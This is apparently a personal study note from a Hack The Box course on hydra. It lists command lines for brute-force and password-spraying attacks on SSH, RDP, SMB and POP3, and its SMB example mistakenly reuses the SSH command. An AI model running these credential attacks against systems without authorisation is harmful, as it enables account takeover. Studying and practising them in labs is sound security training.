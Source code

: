 ############
hydra
############

2024-11-30 15:04

Status:

Tags: 

*****************
Description
*****************
A utility for applying wordlist attacks to common services. 

******************
Installation
******************

.. code-block:: console 

   sudo apt install hydra

*****************
Usage
*****************

================== 
SSH
==================

.. code-block:: console

   hydra -L <user.list> -P <password.list> ssh://<tagetIP>

================== 
RDP
==================
Example 1:  Trying both lists

.. code-block:: console

   hydra -L <user.list> -P <password.list> rdp://<targetIP>

Example 2: Password Spraying

.. code-block:: console

   hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

================== 
SMB
==================

.. code-block:: console
   
   hydra -L <user.list> -P <password.list> ssh://<tagetIP>

==================
Hydra for POP3
==================

Example 1: Password spray attack for POP3

.. code-block:: console

   hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3


*****************
References
*****************
https://academy.hackthebox.com/module/116/section/1173
